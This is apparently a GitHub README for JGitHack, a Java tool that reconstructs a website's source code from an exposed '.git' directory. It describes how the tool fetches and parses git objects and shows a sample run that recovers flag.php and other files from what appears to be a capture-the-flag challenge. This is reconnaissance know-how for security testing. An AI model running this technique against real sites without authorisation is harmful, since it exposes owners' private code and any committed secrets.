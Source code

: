 # JGitHack
JGitHack is a Java tool using ".git leak" to restore web project.

## Main Principle
* fetch git objects directories
  + fetch ".git/logs/HEAD" from web 
  + parse ".git/logs/HEAD" for getting sha1 of commit object 
  + fetch commit object by their sha1 from web
  + parse commit object for getting sha1 of tree object
  + fetch tree object for getting sha1 of blob object or other tree object
* fetch current viersion of codes
  + ".git/index" from web
  + parse ".git/index" for getting the mapping between sha1 and file name
    - fetching blob object with sha1
    - restore it to file with file name
* git cli can be used from now on for further operation, e.g. checkout old versions.

## Example
* run JGitHack with a web url which has ".git leak".(The url used below is dynamic which may be ineffective now.) 
``` shell
GitHack build start
rootUrl:     http://10969825b5674ba6b0f0dd5b9742d5677aa2c9ad31314ff7.game.ichunqiu.com/Challenges
downloadDir: 10969825b5674ba6b0f0dd5b9742d5677aa2c9ad31314ff7.game.ichunqiu.com/Challenges
download file "/.git/index", size: 289
download file "/.git/logs/HEAD", size: 975
download file "/.git/config", size: 137
download file "/.git/COMMIT_EDITMSG", size: 15
download file "/.git/HEAD", size: 23
download file "/.git/refs/heads/master", size: 41
download object, sha1: 12c6ddf4af0a5542c1cf6a9ab19b4231c1fd9a88, size: 139
download object, sha1: 1556a1d651526780ecd22db22681619e4ce6aa4b, size: 146
download object, sha1: 69eaa876b7c0ec09169133a0cece4ef4622377f2, size: 83
download object, sha1: 91eb7d06c3c2e3b4260270c008b3bc2fb31fdb53, size: 83
download object, sha1: a5ea8f33599400a1622e06d2052593de79c57716, size: 66
download object, sha1: bd049e0081dbaba2311310b908e4b57cfe961c78, size: 68
download object, sha1: d0632969351d8329c6bdc1cac5e30b7d20fa8c82, size: 59
download object, sha1: 25a4a898b1a45412a538a7baa868bc406c1d8ba9, size: 117
download object, sha1: abbbdcc032c8e76087f2daf593f423f74857b0cf, size: 146
download object, sha1: 734d08bfd094afa3372b997bf1c71412c1afc7d9, size: 145
GitHack build success
GitHack cost 11s
GitHack checkout start
download object, sha1: 8854e23055a5d895157ee4df3e9f38e1e16f5e99, size: 52
restore file: /flag.php, sha1: 8854e23055a5d895157ee4df3e9f38e1e16f5e99
download object, sha1: d0632969351d8329c6bdc1cac5e30b7d20fa8c82, size: 59
restore file: /index.php, sha1: d0632969351d8329c6bdc1cac5e30b7d20fa8c82
download object, sha1: 20c774a517f7ee2d74379ca23d80c200e887eac3, size: 56
restore file: /robots.txt, sha1: 20c774a517f7ee2d74379ca23d80c200e887eac3
GitHack checkout success
```
* check the status for git
``` shell
MacBook-Air$ git fsck
Checking object directories: 100% (256/256), done.

MacBook-Air$ git log
commit abbbdcc032c8e76087f2daf593f423f74857b0cf
Author: tmp <tmp@tmp.tmp>
Date:   Fri Sep 16 13:16:21 2016 +0800
    add robots.txt
commit da06087a0b893ddb6b6c857e53ce4387c96785ab
Author: tmp <tmp@tmp.tmp>
Date:   Fri Sep 16 13:13:16 2016 +0800
    edit flag.php
commit 12c6ddf4af0a5542c1cf6a9ab19b4231c1fd9a88
Author: tmp <tmp@tmp.tmp>
Date:   Fri Sep 16 13:09:53 2016 +0800
    test

MacBook-Air$ git checkout 12c6ddf4af0a5542c1cf6a9ab19b4231c1fd9a88
Note: checking out '12c6ddf4af0a5542c1cf6a9ab19b4231c1fd9a88'.
HEAD is now at 12c6ddf... test
```
